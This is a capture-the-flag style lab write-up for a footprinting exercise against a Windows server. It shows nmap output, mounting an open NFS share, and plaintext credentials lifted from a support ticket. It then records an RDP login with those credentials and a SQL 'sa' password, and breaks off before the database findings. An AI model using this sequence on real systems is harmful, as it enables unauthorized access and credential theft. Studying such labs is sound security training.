


# Footprinting - Medium Lab

**Engagement Information:**

>This second server is a server that everyone on the internal network has access to. In our discussion with our client, we pointed out that these servers are often one of the main targets for attackers and that this server should be added to the scope.
>
>Our customer agreed to this and added this server to our scope. Here, too, the goal remains the same. We need to find out as much information as possible about this server and find ways to use it against the server itself. For the proof and protection of customer data, a user named *HTB* has been created. Accordingly, we need to obtain the credentials of this user as proof.

---

**Goal:**

- *Enumerate the server carefully and find the username "HTB" and its password. Then, submit this user's password as the answer.*

---

**Target Information:**

- Existing user *HTB*


---

**Enumeration:**

- nmap

```bash
$ nmap -sV -sC -oN nmap_init.txt -T4 $htb
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-16 08:59 CDT
Nmap scan report for 10.129.157.85
Host is up (0.048s latency).
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: WINMEDIUM
|   NetBIOS_Domain_Name: WINMEDIUM
|   NetBIOS_Computer_Name: WINMEDIUM
|   DNS_Domain_Name: WINMEDIUM
|   DNS_Computer_Name: WINMEDIUM
|   Product_Version: 10.0.17763
|_  System_Time: 2025-08-16T14:03:13+00:00
```

---

**Initial Access:**

- Found and was able to mount an NFS share on the server:

```bash
$ showmount -e $htb
Export list for 10.129.157.85:
/TechSupport (everyone)

$ mkdir tech

$ sudo mount -t nfs $htb:/ ./tech/ -o nolock
```

- User Credentials found in NFS share:

```bash
$ cat tech/TechSupport/ticket4238791283782.txt

Conversation with InlaneFreight Ltd

Started on November 10, 2021 at 01:27 PM London time GMT (GMT+0200)
---
01:27 PM | Operator: Hello,.

So what brings you here today?
01:27 PM | alex: hello
01:27 PM | Operator: Hey alex!
01:27 PM | Operator: What do you need help with?
01:36 PM | alex: I run into an issue with the web config file on the system for the smtp server. do you mind to take a look at the config?
01:38 PM | Operator: Of course
01:42 PM | alex: here it is:

 1smtp {
 2    host=smtp.web.dev.inlanefreight.htb
 3    #port=25
 4    ssl=true
 5    user="alex"
 6    password="lol123!mD"
 7    from="alex.g@web.dev.inlanefreight.htb"
```

- Logged in with stolen credentials via RDP:

`$ xfreerdp3 /u:alex /p:'lol123!mD' /v:$htb`

---

**Further Enumeration and Escalation:**

- Microsoft SQL Server is immediately accessible on the desktop,
  - All attempts to log in failed

- Digging through Alex's file I found what would appears to be the administrator password:
  - `sa:87N1ns@slls83`



- Ran microsoft sql as administrator using found credentials.
  - Found the database containing user accounts and passwords:


